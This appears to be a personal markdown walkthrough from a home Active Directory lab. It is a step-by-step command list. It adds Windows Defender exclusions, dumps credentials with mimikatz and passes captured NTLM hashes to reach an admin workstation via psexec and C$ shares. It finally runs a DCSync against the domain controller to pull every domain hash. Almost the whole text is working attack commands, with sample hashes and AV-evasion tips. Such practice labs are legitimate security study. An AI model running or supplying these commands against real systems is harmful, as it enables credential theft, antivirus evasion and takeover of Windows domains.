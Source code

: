 ## mimikatz
- add exclusion for C:\ to windows defender
- set log file
    - `log C:\Users\normaluser\Downloads\mimi_client.txt`
- always need to run this first in order to run any sekurlsa command
    - `privilege::debug`
- get passwords
    - `sekurlsa::logonpasswords`
- look for `User Name         : Administrator`
    - Domain            : WIN10CLIENT
    - NTLM     : af992895db0f2c42a1bc96546e92804a
- pass the hash
    - the `/run:cmd.exe` part seems unneeded 
```
sekurlsa::pth /user:Administrator /domain:WIN10CLIENT /ntlm:af992895db0f2c42a1bc96546e92804a /run:cmd.exe
```
- dir \\192.168.56.30\C$

## win10adm
- get into win10adm with psexec
    - requires mimikatz terminal
    - `psexec -r teto /accepteula \\192.168.56.30 cmd.exe`
- get/set exclusion path for admin
    - `powershell -c "Get-MpPreference | Select-Object -ExpandProperty ExclusionPath"`
    - `powershell -c "Add-MpPreference -ExclusionPath '%USERPROFILE%'"`
- this did not seem to help
    - `powershell -c "Add-MpPreference -ExclusionPath X:\"`
- get list of administrative shares
    - `net share`
- map default share and move to it
    - `net use x: \\192.168.56.30\C$`
    - `x:`
- seem to have more time if I copy it into a subfolder
    - `mkdir mimi`
    - `cd X:\Users\Administrator\mimi`
- copy from w10client to w10adm
    - `copy C:\Users\normaluser\Downloads\mimikatz\x64\* X:\Users\Administrator\mimi`
- 2nd mimikatz window:
    - `cd %userprofile%\mimikatz`
- open the file before windefender removes it
    - `mimikatz`
- get hash
    - `privilege::debug`
    - `sekurlsa::logonpasswords`
    - `log X:\Users\Administrator\mimikatz\mimi_adm.txt`
- had to log into win10_adm to get hashes to show up
    - domad showed up twice
    - NTLM     : cff48581d56085119bddffacfae51aeb

## win10_ad
- pass the hash
- `sekurlsa::pth /user:domad /domain:adlab.local /ntlm:cff48581d56085119bddffacfae51aeb`
- verify we have access to dc
- `dir \\192.168.56.10\C$`
- dont need to use psexec, just go deeper into mimikatz again
    - `privilege::debug`
    - `lsadump::dcsync /domain:adlab.local /all /csv`
- check which users are domain admins
    - `net group "domain admins" /domain`
